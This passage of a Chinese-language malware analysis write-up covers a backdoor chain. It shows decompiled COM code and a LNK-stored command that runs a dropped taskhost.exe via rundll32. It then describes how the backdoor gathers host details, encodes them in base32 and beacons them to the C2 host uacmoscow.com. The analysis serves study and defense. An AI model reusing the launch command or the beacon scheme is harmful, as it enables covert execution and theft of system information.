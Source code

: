             v5 = (*(*a2 + 24))(a2, a4, 0) < 0;
            ppv = a2;
            v6 = *a2;
            if ( !v5 )
            {
              (*(v6 + 8))();
              (*(*ppv + 8))(ppv);
              CoUninitialize();
              return;
            }
            (*(v6 + 8))(ppv);
          }
          (*(*retaddr + 8))(retaddr);
        }
        CoUninitialize();
      }
    }
    ```
    :::
    雖然看的不是很懂，但總之這個LNK內部儲存的東西如下，簡單來說就是用rundll32.exe跑剛剛解密的taskhost.exe:
    ```
    C:\WINDOWS\system32\rundll32.exe url.dll,FileProtocolHandler %TMP%\taskhost.exe
    ```
    只要打開內容看一下就知道了，當然如果可以用工具parse一下會更準確，但礙於時間的關係就先往下分析
    ![圖片](https://hackmd.io/_uploads/HypaHtKa6.png)

7. Analyze taskhost.exe
    請查閱後門功能這個Section



### 通訊協定
因為我沒有實際架一個server讓他連線，所以我是直接錄一個失敗的connection，看他丟了什麼出來
![圖片](https://hackmd.io/_uploads/rkwPnVcT6.png)
:::danger
如果之後還有時間可以想辦法架一個C2 Server，實際去構造連線的封包
:::
### 加解密演算法
如上所述
### 後門功能
先說明一下這個後門在幹麻，順一下流程
1. 在main function中實作了一個MD5 hash function，並且從0開始算直到符合`ef775988943825d2871e1cfa75473ec0`，其實這個就是99999999，我不太確定這一段為什麼要做這件事，可能的原因我想有兩個，其一是想要做到PoW的效果，其二是不想要太快執行到關鍵的地方，讓使用者可以放下戒心，但兩個原因都不太能說服自己就是了
2. 接著他decode出了類似port的1228這個數字和C2 server name:==uacmoscow.com==，我不太確定這個1228是幹嘛的
3. 接著進入到while loop想辦法fetch到電腦的一些資訊:
    1. Local IP
    2. OEM Code
    3. Tick Count(從開機時間開始到現在過了多久)
    4. 目前電腦的架構是多少
    5. OS版本
    6. Domain Name
    7. Username
    8. Computer Name
    9. Proxy Server有無開啟
4. 先組織好URI→`/ru/order/index.php?strPageID=2396956864`，以我的VM為例，我的IP是`192.168.222.142`，換算成hex就是`0x8edea8c0`
5. 用base32 encode前面得到的所有電腦資訊，以我的VM為例: `KNFVIT2QFUZEGM2JKFEE6AYAKJCU2DYAIRCVGS2UJ5IC2MSDGNEVCSCPAAAAIABRGIZDQ===`
6. 建構封包:
    ```
    Host: uacmoscow.com
    Connection: keep-alive